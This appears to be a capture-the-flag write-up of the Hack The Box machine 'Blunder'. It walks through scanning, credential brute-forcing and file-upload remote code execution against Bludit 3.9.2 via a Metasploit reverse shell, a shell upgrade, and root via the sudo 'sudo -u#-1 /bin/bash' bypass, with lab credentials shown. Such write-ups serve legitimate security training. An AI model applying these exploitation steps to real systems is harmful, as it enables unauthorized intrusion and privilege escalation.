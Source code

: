 ```yaml
---
title: Hackthebox - Blunder
date: 2020-09-09 00:00:00 +0530
categories: [hackthebox, linux]
tags: [bludit 3.9.2, cve-2019-17240, cve-2019-16113, sudo, cve-2019-14287]     # TAG names should always be lowercase
image: /assets/img/posts/blunder/blunder_banner.png
---
```



![](/assets/img/posts/blunder/blunder_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.191 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.191`
```bash
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

## Gobuster

`gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php -t 50`
```
/admin (Status: 301)
/todo.txt (Status: 200)
```

### /admin

- in the admin page I found [bludit CMS](https://github.com/bludit/bludit) admin login panel, 
- Looking at the source code, the CMS version is identified as `3.9.2`

### /todo.txt

`-Inform fergus that the new blog needs images - PENDING`

potential username **fergus**

## Google

**search :** `bludit 3.9.2 vulnerability`

**2 CVEs Found**

**CVE-2019-17240**:*bl-kernel/security.class.php in Bludit 3.9.2 allows attackers to bypass a brute-force protection mechanism by using many different forged X-Forwarded-For or Client-IP HTTP headers.* 

**CVE-2019-16113 (1 Metasploit modules)**:*Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.* 

# User Exploiting

## CVE-2019-17240

**Discovered By**: Rastating
**References**: [rastating.github.io](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) Blog post.

- requirements

  - **username:** fergus
  - **wordlist:** *create a wordlist from the website text*
  
        cewl http://10.10.10.191 -w wordlist


### POC Script

[bludit_3.9.2-Bruteforce.py](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/blunder/exploit/bludit_3.9.2-Bruteforce.py)

* [Wordlist](exploit/wordlist.txt) generated from webpage usubg cewl tool

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=940s)*

#### creds

      fergus:RolandDeschain

## CVE-2019-16113

**Discoverer**: Christasa
**References**: [issue 1081](https://github.com/bludit/bludit/issues/1081)

- requirements

  - **username:** fergus
  - **password:** RolandDeschain


### Exploiting

#### using ExploitDB Script

  - Title: Bludit 3.9.2 - Directory Traversal
  - Author: James Green
  - EDB-ID: [48701](https://www.exploit-db.com/exploits/48701)

[Bludit_3.9.2-DirectoryTraversal.py](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/blunder/exploit/Bludit_3.9.2-DirectoryTraversal.py)

*ippsec [video](https://www.youtube.com/watch?v=G5iw8c2vXuk&t=2460s)*

#### MSF Module [Rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec)

> exploit/linux/http/bludit_upload_images_exec

	BLUDITPASS => RolandDeschain
	BLUDITUSER => fergus
	RHOSTS => 10.10.10.191
	LHOST => tun0

### low lavel user shell or meterpreter shell
	$ whoami;id
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)

### spawn dumb shell, [ropnop.com blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

	$ which python
		/usr/bin/python
	# In reverse shell
	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z

	# In Kali
	$ stty raw -echo
	$ fg 	//Enter twice

	# In reverse shell
	$ reset
	$ export SHELL=bash
	$ export TERM=xterm-256color
	$ stty rows <num> columns <cols>

**for meterpreter shell upgrade :** [hackingarticles.in blog](https://www.hackingarticles.in/command-shell-to-meterpreter/)

### Local Enumeration

- Home directory has 2 users

	  hugo	//has user flag
	  shaun

- in `/var/www/bludit-3.10.0a/bl-content/databases` directory

	  user.php	//contains Hugo's password hash

		"nickname": "Hugo",
		"password": "faca404fd5c0a31cf1897b823c695c85cffeb98d"
		//hash type SHA1
		
- creds

	  hugo:Password120

# Root Prevesc

- **Enumeration**

	  $ su - hugo
	  su - hugo
	  Password: Password120

	  hugo@blunder:~$ sudo -l
	  sudo -l
	  Password: Password120

	  Matching Defaults entries for hugo on blunder:
	      env_reset, mail_badpass,
	      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
	  hugo@blunder:~$ sudo -V
	  sudo -V
	  Sudo version 1.8.25p1


### Google

**search :** `sudo ALL, !root privesc`

**1 CVE Found**

#### CVE-2019-14287

	# Exploit Title : sudo 1.8.27 - Security Bypass
	# Original Author: Joe Vennix
	# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
	# Version : Sudo <1.2.28
	# Credit : Joe Vennix from Apple Information Security found and analyzed the bug

EDB-ID: [47502](https://www.exploit-db.com/exploits/47502)

- misconfigured sudo

	  $ sudo -l 
	  User hugo may run the following commands on blunder:
	      (ALL, !root) /bin/bash
    
**EXPLOIT :** 

	$ sudo -u#-1 /bin/bash